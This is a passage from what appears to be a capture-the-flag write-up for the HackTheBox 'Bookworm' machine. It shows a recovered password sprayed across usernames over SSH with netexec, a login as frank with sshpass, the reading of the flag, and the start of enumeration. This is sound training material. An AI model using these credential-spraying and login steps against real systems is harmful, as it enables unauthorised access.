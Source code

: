 ### SSH

#### Find User

I’ve got three usernames from the `passwd` file, and now another username and password from the database. `netexec` (formerly `crackmapexec`) is a quick way to check if any work over SSH. I like to include `--continue-on-success` to see if multiple users might use that password:

```

oxdf@hacky$ netexec ssh bookworm.htb -u users.txt -p FrankTh3JobGiver --continue-on-success
SSH         10.10.11.215    22     bookworm.htb     [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.9
SSH         10.10.11.215    22     bookworm.htb     [+] frank:FrankTh3JobGiver  - shell access!
SSH         10.10.11.215    22     bookworm.htb     [-] neil:FrankTh3JobGiver Authentication failed.
SSH         10.10.11.215    22     bookworm.htb     [-] james:FrankTh3JobGiver Authentication failed.
SSH         10.10.11.215    22     bookworm.htb     [-] bookworm:FrankTh3JobGiver Authentication failed.

```

It works for frank!

#### SSH

I’m able to get a shell as frank:

```

oxdf@hacky$ sshpass -p FrankTh3JobGiver ssh frank@bookworm.htb
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)
...[snip]...
frank@bookworm:~$ 

```

And `user.txt`:

```

frank@bookworm:~$ cat user.txt
067130be************************

```

## Shell as neil

### Enumeration

#### Home Directories

frank’s home directory is very empty:

```

frank@bookworm:~$ ls -la
total 36
drwxr-xr-x 5 frank frank 4096 May 24  2023 .
drwxr-xr-x 5 root  root  4096 Jun  5  2023 ..
lrwxrwxrwx 1 root  root     9 Jan 30  2023 .bash_history -> /dev/null
-rw-r--r-- 1 frank frank  220 Jan 30  2023 .bash_logout
-rw-r--r-- 1 frank frank 3771 Jan 30  2023 .bashrc
drwx------ 2 frank frank 4096 May  3  2023 .cache
drwxrwxr-x 3 frank frank 4096 May  3  2023 .local
lrwxrwxrwx 1 root  root     9 Jan 30  2023 .mysql_history -> /dev/null
-rw-r--r-- 1 frank frank  807 Jan 30  2023 .profile
drwx------ 2 frank frank 4096 May  3  2023 .ssh
```